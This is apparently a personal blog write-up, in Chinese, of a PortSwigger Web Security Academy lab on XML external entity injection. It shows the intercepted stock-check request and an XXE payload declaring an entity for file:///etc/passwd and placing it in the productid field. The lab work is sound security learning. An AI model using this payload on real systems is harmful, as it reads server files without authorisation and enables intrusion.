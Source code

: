 ```yaml
---
layout: post
title: "Exploiting XXE using external entities to retrieve files"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_XXE
author: ""
tags: ['PortSwigger_Lab', 'XXE']
---
```






# Exploiting XXE using external entities to retrieve files

教學:
https://blog.csdn.net/ZripenYe/article/details/120793637


w3schools.com
https://www.w3schools.com/xml/xml_dtd_entities.asp


```
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.


此實驗室具有“檢查庫存”功能，可解析 XML 輸入並在響應中返回任何意外值。

為了解決這個實驗，注入一個 XML 外部實體來檢索 `/etc/passwd` 文件的內容。



```


bp 抓包
```http

POST /product/stock HTTP/1.1
Host: 0adb0046040360acc0931139008e002d.web-security-academy.net
Cookie: session=0uOBWyQT42DvgkYtvGKcc9cnmLOGQ7BI
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: */*
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0adb0046040360acc0931139008e002d.web-security-academy.net/product?productId=3
Content-Type: application/xml
Content-Length: 107
Origin: https://0adb0046040360acc0931139008e002d.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close


<?xml version="1.0" encoding="UTF-8"?>
<stockcheck>
	<productid>3</productid>
	<storeid>1</storeid>
</stockcheck>


```

## 工具
### XML格式化在線工具
https://coding.tools/tw/xml-formatter

bp 抓下來的代碼 會變成一行。可以用這個自動排版。


加上
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ 
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockcheck>
	<productid>&xxe;</productid>
	<storeid></storeid>
</stockcheck>


```

測試過只有在這裡才有效
```
productid></productid>
```


成功